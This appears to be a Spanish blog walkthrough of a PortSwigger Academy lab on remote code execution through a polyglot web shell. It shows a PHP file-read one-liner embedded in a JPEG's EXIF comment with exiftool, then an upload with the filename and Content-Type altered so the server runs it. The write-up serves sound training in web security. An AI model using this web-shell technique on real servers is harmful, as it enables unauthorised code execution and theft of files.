



+++
author = "Alux"
title = "Portswigger Academy Learning Path: File Upload Lab 7"
date = "2022-01-11"
description = "Lab: Remote code execution via polyglot web shell upload"
tags = [
    "file upload",
    "portswigger",
    "academy",
    "burpsuite",
]
categories = [
    "pentest web",
]
series = ["Portswigger Labs"]
image = "head.png"
+++

# Lab: Remote code execution via polyglot web shell upload

En este <cite>laboratorio[^1]</cite>la finalidad es subir una shell al servidor para luego poder extraer o recuperar informacion de este. En este caso tenemos que leer el archivo `/home/carlos/secret`

## Reconocimiento

Cuando ingresamos con la cuenta de `wiener:peter` tenemos una opcion para subir archivos, en este caso el avatar del usuario, pero al intentar subir una imagen no nos da una opcion para poder elegir imagen u otro.



Todo bien pero el sistema parece que no ejecuta el codigo php desde la carpeta, haciendo que cualquier archivo php solo podamos ver el contenido del `php` como si fuera texto plano.

## Explotacion

Creamos el archivo php con el siguiente codigo

```php
<?php echo file_get_contents('/home/carlos/secret'); ?>
```

Ahora enviamos el archivo, y vemos la respuesta que nos da diciendo que no se permite subir archivos de tipo `php` solamente `jpg y png`  aun cuando le agregamos las cabeceras para que sea un archivo de tipo jpg o png

- https://en.wikipedia.org/wiki/List_of_file_signatures



Despues de intentar tanto encontre algo de exiftool y agregar un comentario en el blog de hacktricks, asi que me decidi a agregar un comentario a una imagen jpg cualquiera.

- https://book.hacktricks.xyz/pentesting-web/file-upload

```bash
alux@rootsystems:~/portswigger$ exiftool -Comment="<?php echo file_get_contents('/home/carlos/secret'); ?>" imagen.jpg
    1 image files updated
alux@rootsystems:~/portswigger$ exiftool imagen.jpg
ExifTool Version Number         : 12.30
File Name                       : imagen.jpg
Directory                       : .
File Size                       : 73 KiB
File Modification Date/Time     : 2022:01:11 20:55:52-06:00
File Access Date/Time           : 2022:01:11 20:55:52-06:00
File Inode Change Date/Time     : 2022:01:11 20:55:52-06:00
File Permissions                : -rw-r--r--
File Type                       : JPEG
File Type Extension             : jpg
MIME Type                       : image/jpeg
JFIF Version                    : 1.01
Resolution Unit                 : inches
X Resolution                    : 72
Y Resolution                    : 72
Comment                         : <?php echo file_get_contents('/home/carlos/secret'); ?>
Image Width                     : 1080
Image Height                    : 1350
Encoding Process                : Progressive DCT, Huffman coding
Bits Per Sample                 : 8
Color Components                : 3
Y Cb Cr Sub Sampling            : YCbCr4:2:0 (2 2)
Image Size                      : 1080x1350
Megapixels                      : 1.5
```
Ahora que tenemos nuestra imagen jpg con un comentario, procedemos a subirlo, pero esta vez interceptando y no modificando nada, mas que el `filename` y `Content-type` para que se suban como archivos php y que el servidor no lo tome como imagen aunque si valide su cabecera y sea realmente una imagen pero al ingresar al servidor todo su texto legible se tomara como php.


Ahora que hemos subido la imagen podemos ver la key y podemos notar entre todos los caracteres no legibles nuestra key, ya que todo lo esta interpretando como un php incluso los caracteres que no conoce.

> El valor de la key empieza despues del 9 si vemos la peticion anterior notaremos como esta el valor 9 entre el contenido de la imagen antes del comentario



Y con esto resolvimos el lab, pudiendo subir un archivo php que ejecuta acciones o comandos en el servidor.


[^1]: [Laboratorio](https://portswigger.net/web-security/file-upload/lab-file-upload-web-shell-upload-via-obfuscated-file-extension)